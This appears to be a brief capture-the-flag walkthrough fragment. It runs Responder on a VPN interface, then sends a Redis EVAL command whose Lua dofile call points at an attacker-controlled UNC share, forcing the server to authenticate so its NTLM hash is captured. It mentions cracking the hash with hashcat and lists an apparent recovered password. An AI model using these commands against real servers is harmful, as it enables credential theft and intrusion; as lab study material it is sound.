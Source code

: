 ```bash
sudo responder -I tun0
```

hit our responder with redis to capture hash
```bash
redis-cli -h 10.10.190.115 -p 6379 EVAL "dofile('//10.17.55.0//share')" 0
```

![[Pasted image 20240127115415.png]]

crack the hash with hashcat
`sand_0873959498`
